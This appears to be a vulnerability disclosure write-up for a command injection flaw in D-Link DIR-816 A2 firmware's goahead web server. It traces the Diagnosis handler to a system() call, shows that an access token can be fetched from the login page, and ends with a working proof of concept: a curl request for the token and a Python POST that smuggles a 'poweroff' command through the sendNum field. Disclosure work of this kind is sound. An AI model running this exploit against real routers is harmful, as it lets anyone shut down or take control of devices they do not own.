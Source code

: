 # D-Link DIR-816 A2 1.10 B05 command injection

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816
![image-1](./img/1.jpg)

## Vulnerability
Vulnerability is in ./bin/goahead. The function corresponding to Diagnosis can be found in the formDefineManagement function: 
![image-1](./img/2.jpg)

In the sub_45AC4C function  

![image-1](./img/3.jpg)

After concatenating the strings, the system command is executed.

but in the main function, Accessing the /goform route requires verification by the websFormHandler function
![image-1](./img/4.jpg)

In the websFormHandler function
![image-1](./img/5.jpg)

Accessing the /goform route need a tokenid, and access this route can get a tokenid 

![image-1](./img/6.jpg)

## Verify
First, get a tokenid
```
curl http://127.0.0.1/dir_login.asp
```
And then excuting a command
```
import requests

url = "http://127.0.0.1/goform/Diagnosis"

data = {
    "tokenid": "xxx",
    "pingAddr": "127.0.0.1",
    "sendNum": "poweroff"
}

requests.post(url=url, data=data)
```
